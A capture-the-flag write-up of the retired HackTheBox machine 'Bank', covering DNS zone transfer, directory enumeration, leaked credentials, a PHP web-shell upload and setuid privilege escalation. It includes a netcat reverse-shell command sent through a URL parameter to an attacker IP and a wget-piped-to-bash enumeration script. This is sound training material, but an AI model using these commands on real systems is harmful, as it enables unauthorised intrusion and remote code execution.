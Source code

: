 # Bank

This is the write-up for the box Bank that got retired at the 22nd September 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.29    bank.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bank.nmap 10.10.10.29
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking DNS (Port 53)

Lets enumerate some DNS information with _nslookup_:
```markdown
nslookup

> SERVER 10.10.10.29

Default server: 10.10.10.29
Address: 10.10.10.29#53

> 127.0.0.1

1.0.0.127.in-addr.arpa  name = localhost.

> 10.10.10.29

** server can't find 29.10.10.10.in-addr.arpa: NXDOMAIN

> bank.htb

Server:         10.10.10.29
Address:        10.10.10.29#53

Name:   bank.htb
Address: 10.10.10.29
```

Reverse lookup is not active and the hostname _bank.htb_ responds to the IP.
Lets try a **DNS Zone Transfer** with _dig_:
```markdown
dig axfr bank.htb @10.10.10.29

# Output
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
bank.htb.               604800  IN      NS      ns.bank.htb.
bank.htb.               604800  IN      A       10.10.10.29
ns.bank.htb.            604800  IN      A       10.10.10.29
www.bank.htb.           604800  IN      CNAME   bank.htb.
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
```

We get some interesting subdomains that we will put into our hosts file.

## Checking HTTP (Port 80)

On the web page we see the default Apache2 Ubuntu installation page.
As we found out there is a domain name, we can browse to the web page with the domain name _bank.htb_ and we get a login page.
This is called **Virtual Host Routing**.

![Bank login page](https://kyuu-ji.github.io/htb-write-up/bank/bank_login.png)

We use **Gobuster** to enumerate hidden paths on this page with the PHP extension:
```markdown
gobuster -u http://bank.htb/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

There are these directories that could be interesting:
- /uploads (Status: 301)
- /inc (Status: 301)
- /index.php (Status: 302)
- /support.php (Status: 302)
- /balance-transfer (Status: 200)

### Method 1 - Ignore redirects

With Burpsuite we can look on the web pages that redirect us by changing the HTTP response code from _302 Found_ to HTTP code _200 OK_.

This is the index.php page:

![Bank index page](https://kyuu-ji.github.io/htb-write-up/bank/bank_index.png)

This is the support.php page:

![Bank support page](https://kyuu-ji.github.io/htb-write-up/bank/bank_support.png)

We can upload code on the support.php to get command execution on the box.


### Method 2 - Intended way

The directory _balance-transfers_ that we found has many of these files in it:

![Bank balance-transfers page](https://kyuu-ji.github.io/htb-write-up/bank/bank_balance-transfers.png)

This goes way down. There are around 1000 of these files. Looking at one of them they hold this content:
```markdown
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: czeCv3jWYYljNI2mTedDWxNCF37ddRuqrJ2WNlTLje47X7tRlHvifiVUm27AUC0ll2i9ocUIqZPo6jfs0KLf3H9qJh0ET00f3josvjaWiZkpjARjkDyokIO3ZOITPI9T
Email: 1xlwRvs9vMzOmq8H3G5npUroI9iySrrTZNpQiS0OFzD20LK4rPsRJTfs3y1VZsPYffOy7PnMo0PoLzsdpU49OkCSSDOR6DPmSEUZtiMSiCg3bJgAElKsFmlxZ9p5MfrE
Password: TmEnErfX3w0fghQUCAniWIQWRf1DutioQWMvo2srytHOKxJn76G4Ow0GM2jgvCFmzrRXtkp2N6RyDAWLGCPv9PbVRvbn7RKGjBENW3PJaHiOhezYRpt0fEV797uhZfXi
CreditCards: 5
Transactions: 93
Balance: 905948 .
===UserAccount===
```

Lets download all of them, to examine them easier in the shell.
```markdown
wget -r http://bank.htb/balance-transfer/
```

By sorting them by file size we see that most of them have either 583, 584 or 585 bytes except for one that has 257 bytes.
```markdown
wc -c \*.acc | sort -n -r
```

The file with the name **68576f20e9732f1b2edc4df5b8533230.acc** has only 257 bytes and has this content:
```markdown
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

When trying this credentials on the login page we get logged in.

There is a _Support_ page where we can upload files.

![Bank support page](https://kyuu-ji.github.io/htb-write-up/bank/bank_support-2.png)

The page allows images but doesn't allow PHP files to be uploaded. Looking at the source we see a comment that says:
> [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG]

So lets change the extension of our file to _.htb_ instead.

![File upload](https://kyuu-ji.github.io/htb-write-up/bank/bank_file-upload.png)

We see the uploaded files in the web page now and can click on the attachment to browse to that file. Now we can execute commands:
```markdown
http://bank.htb/uploads/logo.htb?cmd=whoami
```

This gives us the output that we are _www-data_. Lets start a reverse shell with this command execution.
```markdown
http://bank.htb/uploads/logo.htb?cmd=nc%20-e%20/bin/sh%2010.10.14.23%209001
```

After a short while the the request gets sent to my listener that waits for connections on my IP and port 9001 and we started a reverse shell as www-data!

## Privilege Escalation

When looking at the PHP files from the server, we find credentials for MySQL in the file **/var/www/bank/inc/user.php**:
```markdown
# (...)
function getUsername($email){
                $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
                $email = $mysql->real_escape_string($email);
                $result = $mysql->query("SELECT * FROM users WHERE email = '$email'");
                $row = $result->fetch_assoc();
                return $row['username'];
# (...)
```

We can login into MySQL but don't find anything important can starting a shell from there won't give us a root shell:
```markdown
mysql -u root -p


mysql> \! /bin/sh
```

The password won't work on the _chris_ nor the _root_ user, so we will execute any Linux enumeration script to get an attack surface.
```markdown
wget http://10.10.14.23/LinEnum.sh | bash
```

Looking at the results we see that there is a _setuid bit_ set on the **/var/htb/bin/emergency** binary that is not a default Linux binary.
When executing this, we drop into a shell with the effective user ID of root and finished the box!
